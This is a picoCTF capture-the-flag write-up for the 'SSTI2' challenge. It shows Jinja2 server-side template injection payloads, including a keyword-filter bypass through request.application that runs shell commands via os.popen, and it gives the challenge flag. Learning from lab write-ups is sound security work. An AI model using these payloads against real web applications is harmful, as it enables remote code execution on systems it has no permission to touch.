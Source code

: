 ```yaml
---
layout: post
title: "SSTI2"
date: 2025-08-19
categories: [PicoCTF, webexploitation]
tags: [picoctf,webexploitation,Medium]
---
```


## Challenge Name: SSTI2

![SSTI2-Example](https://miro.medium.com/v2/resize:fit:640/format:webp/0*VhK65L_moW4sg87A.png)

### 🔎 Challenge Description
I made a cool website where you can announce whatever you want!  
I read about input sanitization, so now I remove any kind of characters that could be a problem :)

---

### 🛠️ Step-by-Step Approach

#### 1. Check the Technology
Run:
```
curl -i http://picoctf.net:64009/
```
This reveals it is likely **Flask with Jinja2 templates**.

---

#### 2. Test for Template Injection
Try:
{% raw %}
```
{{7*7}}
```
{% endraw %}
If you see `49`, then SSTI is confirmed ✅.

---

#### 3. First Payload with `config`
{% raw %}
```
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```
{% endraw %}
But the server responds with:
```
Stop trying to break me >:(
```
So the challenge **blocks config and certain keywords**.

---

#### 4. Encoded Payload Attempt
{% raw %}
```
{{ getattr(
      getattr(
        getattr(config, "_"*2+"class"+"_"
*2), "init"), 
      "_"*2+"globals"+"_"
*2)["os"].popen("ls").read() }}
```
{% endraw %}
Still blocked ❌.

---

#### 5. Switch to `request.application`
{% raw %}
```
{{request
 |attr('application')
 |attr('__globals__')
 |attr('__getitem__')('__builtins__')
 |attr('__getitem__')('__import__')('os')
 |attr('popen')('ls')
 |attr('read')()
}}
```
{% endraw %}
This lists files ✅.

---

#### 6. Read the Flag
{% raw %}
```
{{request
 |attr('application')
 |attr('__globals__')
 |attr('__getitem__')('__builtins__')
 |attr('__getitem__')('__import__')('os')
 |attr('popen')('cat flag')
 |attr('read')()
}}
```
{% endraw %}
Flag obtained:
```
picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}
```

---

## 📘 Beginner-Friendly Explanation

### 1. Your first payload used config
{% raw %}
```
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```
{% endraw %}
- `config` is a Flask **Config object**.  
- From it, you moved into `__class__`, then `__init__`, then `__globals__`.  
- Inside `__globals__`, the **os module** was available.  

But if the CTF blocks `config` or `__class__` / `__globals__`, this path won’t work.

---

### 2. The other payload used request.application
{% raw %}
```
{{ request|attr('application')|attr('__globals__')|... }}
```
{% endraw %}
- `request.application` gives you the Flask **app object**.  
- The app object’s functions carry a `__globals__` dictionary.  
- From `__globals__`, you can reach `__builtins__`.  
- From `__builtins__`, you can get `__import__`, then load **os**.  

This path works even if `config` is blocked.

---

⚖️ **Why “request.application” works better**
- `config` path relies on Python **class internals** → more likely blocked in CTFs.  
- `request.application` relies on **Flask internals** → harder to block, always present.  

✅ **Summary:**
- `config` = convenient if not filtered.  
- `request.application` = reliable fallback when filters exist.  

Both are just **different entry points** leading to the same goal: breaking into Python’s execution environment and achieving code execution.